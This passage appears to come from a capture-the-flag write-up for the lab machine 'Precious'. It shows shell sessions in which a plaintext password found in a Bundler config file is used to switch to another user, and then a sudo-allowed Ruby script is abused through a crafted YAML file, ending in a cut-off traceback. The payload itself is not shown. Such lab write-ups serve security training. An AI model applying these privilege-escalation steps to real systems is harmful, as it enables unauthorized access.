 ```bash
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 Apr 17 12:45 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ cat .bundle
cat .bundle
cat: .bundle: Is a directory
ruby@precious:~$ cd .bundle
cd .bundle
ruby@precious:~/.bundle$ ls
ls
config
ruby@precious:~/.bundle$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~/.bundle$ su henry
su henry
Password: Q3c1AqGHtoI0aXAYFH
```

### Shell as a root

Since, we have a full shell with the user Henry is time to escalate privilege to `root`

```bash
henry@precious:~$ sudo -l                                                                                                                                                                                                                   
Matching Defaults entries for henry on precious:                                                                                                                                                                                            
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                                                                                     
User henry may run the following commands on precious:                                                                                                                                                                                      
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb                                                                                                                                                                              
henry@precious:~$ cd /dev/shm
henry@precious:/dev/shm$ ls
henry@precious:/dev/shm$ nano dependencies.yml
henry@precious:/dev/shm$ sudo ruby /opt/update_dependencies.rb
sh: 1: reading: not found
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
        29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
        25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
        21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
        20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
        19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
        18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
```